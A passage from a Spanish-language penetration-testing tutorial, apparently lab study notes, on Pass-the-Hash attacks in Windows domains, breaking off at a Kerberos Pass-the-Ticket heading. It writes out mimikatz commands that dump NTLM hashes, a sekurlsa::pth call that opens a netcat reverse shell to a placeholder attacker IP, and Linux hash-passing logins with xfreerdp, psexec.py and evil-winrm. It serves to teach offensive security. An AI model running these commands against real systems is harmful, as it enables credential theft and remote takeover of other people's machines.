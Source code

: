 ```shell-session
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # sekurlsa::msv 
```

A continuación, podemos utilizar los hash extraídos para realizar un ataque PtH utilizando mimikatz para inyectar un token de acceso para el usuario víctima en un shell inverso (o cualquier otro comando que desee) de la siguiente manera:

```shell-session
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:<nombreUsuario> /domain:<dominio> /ntlm:<hash> /run:"c:\tools\nc64.exe -e cmd.exe <ATTACKER_IP> <puerto>"
```

Observe que hemos utilizado «token::revert» para restablecer nuestros privilegios de token originales, ya que intentar pasar el hash con un token elevado no funcionará.

Esto sería equivalente a utilizar **«runas /netonly»**, pero con un hash en lugar de una contraseña, y generará un nuevo shell inverso desde el que podremos ejecutar cualquier comando como usuario víctima.

Para recibir el shell inverso, debemos ejecutar un listener inverso en nuestro AttackBox:

```shell-session
user@AttackBox$ nc -lvp <puerto>
```

Curiosamente, si ejecutas el comando whoami en este shell, seguirá mostrándote el usuario original que estabas utilizando antes de realizar PtH, pero cualquier comando que se ejecute desde aquí utilizará en realidad las credenciales que inyectamos mediante PtH.

3. **Pass the Hash usando Linux:**

Si tienes acceso a un equipo Linux (como tu AttackBox), hay varias herramientas que incorporan soporte para realizar PtH utilizando diferentes protocolos. Dependiendo de los servicios que tengas disponibles, puedes hacer lo siguiente:

_Conectarse a RDP utilizando PtH:_

```shell-session
xfreerdp /v:<VICTIM_IP> /u:<DOMAIN\\MyUser> /pth:<NTLM_HASH>
```

_Conectarse vía psexec usando PtH:_

```shell-session
psexec.py -hashes <NTLM_HASH> <DOMAIN/MyUser>@<VICTIM_IP>
```

_Conectarse vía WinRM usando PtH:_

```shell-session
evil-winrm -i <VICTIM_IP> -u <MyUser> -H <NTLM_HASH>
```


## Pass-the-Ticket - Kerberos
